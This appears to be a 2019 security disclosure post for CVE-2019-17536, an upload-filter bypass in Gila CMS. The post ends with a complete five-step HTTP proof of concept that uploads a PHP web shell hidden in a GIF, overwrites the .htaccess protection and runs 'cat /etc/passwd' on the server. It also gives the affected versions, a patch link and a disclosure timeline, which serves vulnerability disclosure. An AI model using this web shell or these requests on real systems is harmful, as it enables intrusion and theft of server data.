 ```yaml
---
layout: post
title: Gila CMS Upload Filter Bypass and RCE
date: 2019-10-13
categories:
  - disclosure
  - websec
  - security
tags:
  - disclosure
  - php
  - security
  - websec
  - rce
  - CVE-2019-17536
image: /assets/images/2019-10-13-gila-cms-upload-bypass-and-rce/shell-on-server.png
---
```

Versions prior to and including 1.11.4 of Gila CMS are vulnerable to remote code execution by users that are permitted to upload media files. It is possible to bypass the media asset upload restrictions that are in place to prevent arbitrary PHP being executed on the server by abusing a combination of two issues.

The first is the support for uploading animated GIFs. By submitting a GIF that contains the following content we can place a GIF file that contains [currently unexecutable] PHP code in a GIF file on the server (in this case `test.gif`):

```php
GIF89a; <?=`$_GET[1]`?>
```

After uploading this, the file can now be clicked and the move function can be used to move this into another directory within the application directory with a PHP extension (in this case, it is moved to `tmp/media_thumb/shell.php`):

![](/assets/images/2019-10-13-gila-cms-upload-bypass-and-rce/rename.png)

As can be seen in the below screenshot, this is now stored on the server with a valid extension:

![](/assets/images/2019-10-13-gila-cms-upload-bypass-and-rce/shell-on-server.png)

At this point, the PHP file cannot be executed as the htaccess file found in `tmp/.htaccess` contains the following configuration:

```xml
<Files *.php>
deny from all
</Files>
```

This prevents any PHP files under `tmp/` being accessed. However, the same upload vulnerability can be abused to overwrite the htaccess file. To do this, one uploads a GIF file again but with the content:

```
# GIF89a;
```

This creates a GIF file on the server, that starts with a valid comment character, which prevents the server running into an error when parsing it during subsequent requests. The same rename bug can then be used to move this file to `tmp/.htaccess`:

![](/assets/images/2019-10-13-gila-cms-upload-bypass-and-rce/htaccess.png)

After doing this, the PHP file can be accessed from the web browser, and remote code execution is gained as can be seen in the below screenshot in which `cat /etc/passwd` is executed:

![](/assets/images/2019-10-13-gila-cms-upload-bypass-and-rce/shell.png)

Versions Affected
-----------------
<= 1.11.4

Solution
--------
Update to a version later than 1.11.4 or apply the patch found at [https://github.com/GilaCMS/gila/pull/49](https://github.com/GilaCMS/gila/pull/49)

CVSS v3 Vector
--------------
[AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:L/E:P/RL:T/RC:R](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:L/E:P/RL:T/RC:R&version=3.1)

Disclosure Timeline
-------------------
- **2019-10-12**: Vulnerability found
- **2019-10-13**: Patch created and pull request sent to project
- **2019-10-13**: CVE requested
- **2019-10-13**: CVE-2019-17536 assigned

Proof of Concept
----------------
**Step 1: Store blank htaccess stager**
```http
POST /gila/admin/media_upload HTTP/1.1
Host: 192.168.194.146
Content-Length: 510
Origin: http://192.168.194.146
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOYDZotidj55MOMPD
Accept: */*
Referer: http://192.168.194.146/gila/admin/media
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=c4ih0deald5srb1ur1k3jg13fj; GSESSIONID=1tu6xguu1n7t84deh7b6j4f6k83kslsowcmannst8ztgwout3z
Connection: close

------WebKitFormBoundaryOYDZotidj55MOMPD
Content-Disposition: form-data; name="uploadfiles"; filename="test.gif"
Content-Type: image/gif

# GIF89a;

------WebKitFormBoundaryOYDZotidj55MOMPD
Content-Disposition: form-data; name="formToken"

1=^4podpw4k&8%i
------WebKitFormBoundaryOYDZotidj55MOMPD
Content-Disposition: form-data; name="path"

assets
------WebKitFormBoundaryOYDZotidj55MOMPD
Content-Disposition: form-data; name="g_response"

content
------WebKitFormBoundaryOYDZotidj55MOMPD--

```

**Step 2: Overwrite tmp/.htaccess**
```http
POST /gila/fm/move HTTP/1.1
Host: 192.168.194.146
Content-Length: 80
Accept: */*
Origin: http://192.168.194.146
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: http://192.168.194.146/gila/admin/media
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=c4ih0deald5srb1ur1k3jg13fj; GSESSIONID=1tu6xguu1n7t84deh7b6j4f6k83kslsowcmannst8ztgwout3z
Connection: close

newpath=tmp%2F.htaccess&path=assets%2Ftest.gif&formToken=1%3D%5E4podpw4k%268%25i
```

**Step 3: Upload PHP shell stager**
```http
POST /gila/admin/media_upload HTTP/1.1
Host: 192.168.194.146
Content-Length: 524
Origin: http://192.168.194.146
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOYDZotidj55MOMPD
Accept: */*
Referer: http://192.168.194.146/gila/admin/media
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=c4ih0deald5srb1ur1k3jg13fj; GSESSIONID=1tu6xguu1n7t84deh7b6j4f6k83kslsowcmannst8ztgwout3z
Connection: close

------WebKitFormBoundaryOYDZotidj55MOMPD
Content-Disposition: form-data; name="uploadfiles"; filename="test.gif"
Content-Type: image/gif

GIF89a; <?=`$_GET[1]`?>

------WebKitFormBoundaryOYDZotidj55MOMPD
Content-Disposition: form-data; name="formToken"

1=^4podpw4k&8%i
------WebKitFormBoundaryOYDZotidj55MOMPD
Content-Disposition: form-data; name="path"

assets
------WebKitFormBoundaryOYDZotidj55MOMPD
Content-Disposition: form-data; name="g_response"

content
------WebKitFormBoundaryOYDZotidj55MOMPD--
```

**Step 4: Move PHP shell into tmp/media_thumb/shell.php**
```http
POST /gila/fm/move HTTP/1.1
Host: 192.168.194.146
Content-Length: 94
Accept: */*
Origin: http://192.168.194.146
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: http://192.168.194.146/gila/admin/media
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=c4ih0deald5srb1ur1k3jg13fj; GSESSIONID=1tu6xguu1n7t84deh7b6j4f6k83kslsowcmannst8ztgwout3z
Connection: close

newpath=tmp%2Fmedia_thumb%2Fshell.php&path=assets%2Ftest.gif&formToken=1%3D%5E4podpw4k%268%25i
```

**Step 5: Execute shell command on remote host**
```http
GET /gila/tmp/media_thumb/shell.php?1=cat%20/etc/passwd HTTP/1.1
Host: 192.168.194.146
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=c4ih0deald5srb1ur1k3jg13fj; GSESSIONID=1tu6xguu1n7t84deh7b6j4f6k83kslsowcmannst8ztgwout3z
Connection: close

```
